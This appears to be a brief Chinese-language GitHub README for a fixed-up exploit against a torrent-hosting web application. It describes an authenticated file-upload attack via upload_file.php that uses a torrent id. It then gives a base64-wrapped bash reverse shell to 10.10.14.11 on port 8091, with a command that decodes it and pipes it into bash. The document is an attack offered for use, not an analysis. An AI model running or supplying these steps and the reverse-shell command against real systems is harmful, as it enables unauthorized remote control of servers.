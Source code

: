 # exploits
在大佬的项目上进行修改的，运行大佬的代码存在报错，对代码进行了下修复
https://github.com/Anon-Exploiter/exploits

#代码执行逻辑
利用要求 需要有一个账户，账户下面有一个torrents文件。可以获得 tid

url + index.php?mode=directory   查看上传的torrents文件，如果没有上传需要先上传一个才能利用

url + upload_file.php?mode=upload&id= tId    向tId 上传文件

#反弹shell 木马

echo -n '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.11/8091 0>&1"' |base64

echo $base64_code |base64 -d| bash

